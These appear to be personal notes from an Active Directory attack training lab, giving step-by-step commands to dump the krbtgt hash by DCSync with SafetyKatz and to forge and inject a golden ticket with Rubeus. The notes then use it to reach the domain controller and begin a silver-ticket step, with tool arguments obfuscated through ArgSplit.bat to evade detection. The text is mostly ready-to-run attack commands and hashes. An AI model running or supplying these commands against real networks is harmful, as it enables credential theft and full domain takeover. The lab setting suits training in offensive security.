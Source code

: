 ```
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
```
run each command on svcadmin session
then run
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```
to do the dcsync
after the credentials, we can use to make a golden ticket (in admin session in student VM)
Use the below Rubeus command to generate an OPSEC friendly command for Golden ticket. Note that 3 LDAP queries are sent to the DC to retrieve the required information. We will once again use ArgsSplit.bat to encode "golden":
```
C:\AD\Tools\ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: golden
set "z=n"
set "y=e"
set "x=d"
set "w=l"
set "v=o"
set "u=g"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```
```
use aes hash of Administrator

C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
```

this will give us a command to forge a golden ticket. like this
Remember to add /ptt at the end of the generated command to inject it in the current process. Once the ticket is injected, we can access resources in the domain.
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:35 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```
with this, the ticket will be imported 
then we will try to access Dcorp-DC
```
winrs -r:dcorp-dc cmd
set username
set computername
```
This is how we get access to DC using ticket
there are other ways as well from the lab material but overall is the same idea.

---
Silver ticket for HTTP and WMI
```
C:\AD\Tools\ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: silver
set "z=r"
set "y=e"
set "x=v"
set "w=l"
set "v=i"
set "u=s"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```